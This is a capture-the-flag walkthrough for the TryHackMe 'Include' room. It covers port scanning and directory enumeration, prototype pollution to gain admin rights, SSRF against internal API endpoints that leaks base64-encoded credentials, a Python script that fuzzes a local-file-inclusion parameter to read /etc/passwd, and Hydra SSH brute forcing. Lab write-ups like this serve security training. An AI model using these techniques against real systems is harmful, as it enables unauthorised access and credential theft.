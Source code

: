 ## THM CTF - Include

Flags:

> What is the flag value after logging in to the ```SysMon``` app?

> What is the content of the hidden text file in ```/var/www/html```?

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   include.thm
```
***It’s important to note that if we’re unable to navigate the site correctly, we can always use the IP address as a backup.***

Now we can proceed with an ```Nmap``` scan.
```
sudo nmap -sS -T4 include.thm -p-
```
We discovered 8 open ports, and we can list the services they provide.
```
sudo nmap -sS -p22,25,110,143,993,995,4000,50000 -sV -T4 include.thm
```

These are the results:
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```
We can start navigating the two site we've found on ```port 4000``` and ```50000```

```Port 4000``` site is a login page, and trying to login with guest credentials provided by the page itself, we are able to access this site.
```
Post target: http://include.thm:4000/signin
Payload:
{
	"name": "guest",
	"password": "guest"
}
Cookies:
{
	"Request Cookies": {
		"connect.sid": "s:xxxxxxxxxxxxxxxx",
		"PHPSESSID": "xxxxxxxxx"
	}
}
Invalid response (signin):
Incorrect name or password
```
Port 50000 leads us to a restricted site with an index.php page and a login page that we can immediately test.
```
Post target: http://include.thm:50000/login.php
Payload:
{
	"username": "admin",
	"password": "admin"
}
Cookies:
{
	"Request Cookies": {
		"connect.sid": "s:xxxxxxxxxxxxxxxx",
		"PHPSESSID": "xxxxxxxxx"
	}
}
Invalid response (login.php):
Login credentials incorrect
```
We can proceed with ```Gobuster``` on both sites.
```
gobuster dir -u http://include.thm:4000 -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```
and
```
gobuster dir -u http://include.thm:50000 -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```

#### Port 4000

Nothing interesting except for ```/signup``` page that return an ```internal server error (code 500)```.

#### Port 50000

Readable folders:
```
/templates/
/uploads/
```
Notable pages:
```
auth.php
api.php
dashboard.php
profile.php
```
For now it's enough.
We can now explore the guest area on ```port 4000```.

#### Guest area on port 4000

Exploring the site, we discover some input area to test.
We try a classic XSS attack:
```
<script>alter('Test')</script>
```
without success.

At this point we can try to elevate our privileges to Admin thanks to ```Prototype Pollution```.
After some attempts, we can finally achieve our objective by adding:
```
Activity type: "isAdmin"
Activity name: true
```
Obtaining some new menu voices.

In the API section we can find some important information.
```
http://127.0.0.1:5000/internal-api
Response:
{
  "secretKey": "superSecretKey123",
  "confidentialInfo": "This is very confidential."
}
```
and
```
http://127.0.0.1:5000/getAllAdmins101099991
Response:
{
    "ReviewAppUsername": "admin",
    "ReviewAppPassword": "xxxxxx",
    "SysMonAppUsername": "administrator",
    "SysMonAppPassword": "xxxxxxxxx",
}
```
In the Settings section we can find a module that can might be used to further investigate these two internal links.

We can try to insert the URL discovered before.
```
http://127.0.0.1:5000/getAllAdmins101099991
```
We receive the response:
```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=
```
Thanks to CyberChef we can convert this text from Base64 and obtain passwords for Admin (review App) and Administrator (SysMon) account.

{"ReviewAppUsername":"admin","ReviewAppPassword":"xxxxxxxxxxx","SysMonAppUsername":"administrator","SysMonAppPassword":"xxxxxxxxxxx"}

Logging in the ```SysMon``` app, we immediately find the first flag.

Now we need to find the second flag hidden in the ```/var/www/html``` folder.

We try enumerate some of the ```Gobuster``` findings.
After some attempts ```profile.php``` is the only one that seems promising.
In the ```SysMon``` page, there is a link to an image.
```
profile.php?img=profile.png
```
Maybe we can try some ```LFI (Local file inclusion) poisoning```.

```profile.png``` is a file in the folder uploads (discovered previously thanks to the ```Gobuster``` analysis).

After some unsuccessful manual attempts, we should try using long lists and some ```Python``` code.
```
cp /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt .
```
We can simplify the lists because we're looking only for /etc/passwd file.
```
cat LFI-Jhaddix.txt | grep -e 'passwd' > LFI-Jhaddix_short.txt
```
With this list we can execute the ```Python``` script.

<details>
<summary><h3>THM_Include_LFI_Poisoning.py</h3></summary>

```python
import requests

# Change these variables to suits your needs
# Set the target and port

target_ip = '10.10.47.92'
target_port = '50000'

# Set the cookies obtained after a successful login

connect_sid = 's%3AZzTlaCDVBh3QI1YW4p7R8v5ntvMN6ePt.IDg3kva70jRW%2BXcafps0%2BFSY0eXu4p1fN3rp5F6Dzgc'
phpsessid = 'prd7v21kdgn5uojfkn7tmbd1mu'

# Change the path and name of the list to be used

lfi_file = '/home/kali/Downloads/THM_Include/LFI-Jhaddix_short.txt'

# Do not touch these variables

target_uri = f'http://{target_ip}:{target_port}/profile.php?img='
cookies = {
    'connect.sid' : connect_sid,
    'PHPSESSID' : phpsessid

}

# Set-up the session using cookies 

session = requests.Session()
session.cookies.update(cookies)

# Read the file

try:
    with open(lfi_file, 'r') as file:
        for item in file:

            # Generate the request with a get method using list file payload

            request = session.get(f'{target_uri}{item.strip()}')

            # If the word 'root' (always found in the /etc/passwd file) is in the response, print the results and exit

            if 'root' in request.text:
                print(f'{target_uri}{item}')
                print(request.text)
                break

except FileNotFoundError:
    print(f"File not found: {lfi_file}")

print('End of file')

```

  
</details>

We finally find the correct answer:
```
http://include.thm:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
```

We are able to find two interesting users:
```
joshua
charles
```
Trying to connect to these tow account via SSH and using the super secret password found earlier,
```
ssh joshua@include.thm
password: superSecretKey123
```
We attempted the same approach with ```charles```, but unfortunately, we were unsuccessful.

Approaching the problem from a brute-force point-of-view, we achieve success in finding an entry point.
```
hydra -l joshua -P /usr/share/wordlists/rockyou.txt include.thm ssh
```
Now that we have the password we can login via ```SSH``` to the target machine.

Navigating to the target folder, we find the second flag.
